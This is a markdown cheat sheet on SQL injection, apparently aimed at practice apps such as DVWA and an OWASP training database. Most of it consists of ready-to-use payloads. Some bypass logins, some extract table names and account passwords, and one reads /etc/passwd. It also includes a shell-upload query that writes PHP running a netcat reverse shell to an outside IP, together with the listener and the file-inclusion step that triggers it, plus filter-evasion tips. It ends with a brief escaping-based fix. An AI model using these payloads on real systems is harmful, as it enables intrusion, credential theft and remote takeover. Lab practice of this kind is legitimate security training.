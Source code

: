 # SQL Injection

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 
- Data Extracting 
  - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - ```?page=user-info.php&username=z' union select 1,table_name,null,null,5 from information_schema.tables``` 
  - ```?page=user-info.php&username=z' union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - ```?page=user-info.php&username=z' union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - ```?page=user-info.php&username=z' union select 1,username,password,is_admin,5 from accounts``` 
  - ```?page=user-info.php&username=z' union select null,load_file('/etc/passwd'),null,null,null``` 
- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin:
    - nc -vv -l -p 8080
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```
- Tips
  - TRUE statements
    - ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1``` 
  - FALSE statements
    - ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```   
  - Spaces
    - ```+``` & ```/**/``` & ```%20``` 
    - ```orDeR bY 1 can be re-written as``` => ```orDer+bY+1``` or ```orDer/**/bY/**/1``` or ```orDer%20bY%201```
  - Comments to end the quries
    - ```/*``` & ```//``` & ```#``` & ```%23```
    - Sometimes you might need to add ';' before the comment
      - ```anD 1=1//``` => ```anD 1=1;//```

## Mitigation
- Secure Code for login in PHP
```PHP
$query = "SELECT * FROM accounts WHERE username='".
$conn->real_escape_string($username).
"'AND password='".
$conn->real_escape_string($password).
"'"
```
